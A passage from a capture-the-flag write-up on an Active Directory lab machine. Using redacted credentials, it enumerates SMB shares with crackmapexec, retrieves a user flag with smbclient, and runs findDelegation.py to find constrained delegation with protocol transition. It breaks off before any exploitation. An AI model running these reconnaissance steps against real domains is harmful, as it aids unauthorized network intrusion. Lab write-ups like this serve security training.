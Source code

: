 Other Credentials to use also this time we check shares:
```bash
crackmapexec smb 10.10.94.232  -u 'REDACTED' -p 'REDACTED' --shares

SMB         10.10.94.232    445    DC               [+] Enumerated shares
SMB         10.10.94.232    445    DC               Share           Permissions     Remark
SMB         10.10.94.232    445    DC               -----           -----------     ------
SMB         10.10.94.232    445    DC               ADMIN$                          Remote Admin
SMB         10.10.94.232    445    DC               C$                              Default share
SMB         10.10.94.232    445    DC               Home            READ            
SMB         10.10.94.232    445    DC               IPC$            READ            Remote IPC
SMB         10.10.94.232    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.94.232    445    DC               SYSVOL          READ            Logon server share 
```
This time we have READ permission on Home share:
```bash
smbclient \\\\10.10.94.232\\Home -U REDACTED

smb: \> ls
  .                                   D        0  Tue Jun  8 21:42:53 2021
  ..                                  D        0  Tue Jun  8 21:42:53 2021
  user.txt                            A       17  Tue Jun  8 05:14:25 2021

                15587583 blocks of size 4096. 11428932 blocks available
smb: \> get user.txt 
```
We submit the first flag.

This time we had a very important flag in the previous file called __"domain_users_by_group.html"__ indeed password-reset user had an important flag __"TRUSTED_TO_AUTH_FOR_DELEGATION"__, first step is to understand which delegation is and against who, we can find it with the following command:
```bash
findDelegation.py COOCTUS.CORP/password-reset:REDACTED

AccountName     AccountType  DelegationType                      DelegationRightsTo                  
--------------  -----------  ----------------------------------  -----------------------------------
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS.CORP 
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP              
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC                           
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS      
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC/COOCTUS
```

so he has Constrained Delegation with protocol transition on several targets it's time to use internet and doing some researches:
